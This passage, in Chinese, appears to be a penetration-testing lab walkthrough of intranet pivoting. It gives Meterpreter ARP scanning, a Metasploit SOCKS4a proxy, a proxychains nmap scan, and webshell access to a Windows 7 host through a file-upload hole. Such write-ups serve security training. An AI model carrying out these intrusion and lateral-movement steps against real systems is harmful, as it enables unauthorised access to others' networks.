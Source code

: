 2. 扫描内网主机
    ```r
    meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.85.0/24 #arp扫描粗略的扫一眼目标内网的机器大概有多少
    ```
    发现 192.168.85.128的主机

    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-16%2016-30-27%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

3. socks代理
    ```r
    #利用sock4a模块对目标内网代理，只能负责tcp的流量，并不是socks代理进去以后就什么都能搞了
    meterpreter > background
    msf exploit(handler) > use auxiliary/server/socks4a 
    msf auxiliary(socks4a) > set srvhost 127.0.0.1
    msf auxiliary(socks4a) > set srvport 1111
    msf auxiliary(socks4a) > run
    ```
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-16%2016-38-18%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    在proxychians.conf中设置好代理,就可以对目标进行正常的内网渗透了
    ```R
    vi /etc/proxychains.conf
    #在文件末尾添加socks4代理服务器
    ```
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2019-01-22%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    利用proxychains代理扫描并执行nmap操作
    ```r
    proxychains nmap -Pn -sT 192.168.85.0/24 -p1-100
    ```
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2020-25-22%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    4. 发现存在80端口，google配置代理

    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2020-17-29%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    查看
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2021-00-09%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

## 获取内网win7的shell

1. 使用任意文件上传，获取路径
    
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2021-40-53%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

2. 这里使用蚁剑连接
   
   ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2021-40-01%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

3. 可以看到win7 开启了3389端口
   ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2021-44-11%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)
